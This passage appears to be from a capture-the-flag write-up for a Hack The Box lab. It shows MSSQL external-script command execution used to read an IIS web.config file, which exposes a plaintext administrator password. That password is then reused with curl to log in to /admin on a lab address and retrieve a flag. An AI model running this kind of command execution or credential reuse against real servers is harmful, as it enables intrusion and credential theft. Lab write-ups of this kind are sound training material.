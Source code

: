 Now we can run as `poo_public01`. Lets try to read the `web.config` file to see if we can find anything of interest to us.

```bash
SQL (df  dbo@master)> EXEC sp_execute_external_script @language =N'Python', @script = N'import os; os.system("type \inetpub\wwwroot\web.config");';
INFO(COMPATIBILITY\POO_PUBLIC): Line 0: STDOUT message(s) from external script: 
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
        <staticContent>
            <mimeMap
                fileExtension=".DS_Store"
                mimeType="application/octet-stream"
            />
        </staticContent>
        <!--
        <authentication mode="Forms">
            <forms name="login" loginUrl="/admin">
                <credentials passwordFormat = "Clear">
                    <user 
                        name="Administrator" 
                        password="EverybodyWantsToWorkAtP.O.O."
                    />
                </credentials>
            </forms>
        </authentication>
        -->
    </system.webServer>
</configuration>

Express Edition will continue to be enforced.

```

As seen above, the file contains creds for the administrator account. These could work to get past the basic auth at `/admin` and return the next flag.

```bash
┌──(n00b㉿v1c70r)-[~/HTB Prolabs/P.O.O/web enum/IIS_shortname_Scanner]
└─$ curl -s http://administrator:EverybodyWantsToWorkAtP.O.O.@10.13.38.11/admin/
"I can't go back to yesterday, because i was a different person then..."<br>
- Alice in Wonderland<br>
<br>
Flag : POO{[redacted]}

```

# Foothold

## Local Enumeration
